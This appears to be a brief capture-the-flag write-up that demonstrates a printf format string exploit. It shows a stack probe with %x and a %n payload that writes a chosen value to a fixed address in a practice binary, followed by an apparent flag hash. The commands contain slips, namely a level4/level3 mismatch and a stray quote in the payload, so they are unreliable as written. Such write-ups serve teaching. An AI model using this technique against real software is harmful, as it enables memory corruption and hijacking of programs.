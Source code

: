 We can write in a buffer that will be printed with `printf`, and we know about format string exploit. \
Here are the first few steps to exploit a format string outside of gdb: \
```shell
$ # find where our buffer is written in memory:
$ python -c 'print "AAAA" + "%x " * 15' | ./level4
AAAAb7ff26b0 bffff754 b7fd0ff4 0 0 bffff718 804848d bffff510 200 b7fd1ac0 b7ff37d0 41414141 25207825 78252078 20782520
$ # so we see here our A's written at location 12.

$ # we know we need to write '16930116' at address '0x8049810', so we can use printf's padding and the `%n` modifier to write how many bytes we want to this address:
$ python -c 'print "\x10\x98\x04\x08" + ""%16930112c" + "%12$n"' | ./level3
                    |_ write 4b (addr)   |_ write 16930112 bytes
...
...
...
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

